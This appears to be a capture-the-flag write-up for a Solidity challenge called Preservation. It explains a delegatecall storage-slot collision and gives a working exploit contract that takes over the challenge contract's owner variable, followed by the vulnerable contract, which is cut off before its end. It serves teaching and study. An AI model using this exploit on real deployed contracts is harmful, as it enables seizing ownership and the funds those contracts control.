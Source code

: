 To solve this challenge I have defined a hack contract, that has the same order of storage as the challenge contract. In the attack function, I am calling the `setFirstTime()` function twice. In the first call, the address of the hack contract is being converted uint256 and is passed as an argument, since this method will accept arguments of type `uint256` only. This in turn will make a delegate call to the external contract with the hack contract's address as the argument. Now, since the `storedTime` variable which get's updated in the external contract occupies the storage slot 0, when a delegate call is made to the external contract, the variable which is defined in slot 0 in the challenge contract, i.e. the first variable defined in the challenge contract will get updated, and it will now be holding the hack contract's address instead of the external contract's address. I have also defined another function in the hack contract with the same signature as the function, i.e. `setTime()` which is being delegate called in the challenge contract. So, when the `setFirstTime()` function is called for the second time in the attack function, it will call the `setFirstTime()` function in the challenge contract which will delegate call the `setTime()` function. But, instead of calling the `setTime()` function defined in the external contract, the same function defined in the hack contract will be called this time, since the address of the external contract was updated to the hack contract's address previously. The `setTime()` defined in the hack contract updates owner variable, and sice the storage order of the hack contract is same as that of the challenge contract, the owner variable of the challeneg contract will get updated with `msg.sender` which is our wallet's address, hence solving the challenge. Find below the hack contract along with the challenge contract -

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract hack {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;

  function attack(Preservation target) external {
    target.setFirstTime(uint256(uint160(address(this))));
    target.setFirstTime(uint256(uint160(msg.sender)));
  }

  function setTime(uint _owner) external {
    owner = address(uint160(_owner));
  }  
}

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
```